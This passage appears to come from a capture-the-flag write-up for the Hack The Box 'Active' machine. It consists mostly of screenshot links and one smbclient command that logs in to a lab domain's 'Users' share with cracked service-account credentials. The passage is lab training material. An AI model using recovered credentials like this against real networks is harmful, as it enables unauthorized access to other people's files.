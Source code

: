 ![Pasted image 20250521164720.png](images/Pasted_image_20250521164720.png)

- That "Users" share is looking mighty interesting. Let's take a peek:

```bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18 
```

![Pasted image 20250521165412.png](images/Pasted_image_20250521165412.png) ![Pasted image 20250521165530.png](images/Pasted_image_20250521165530.png)
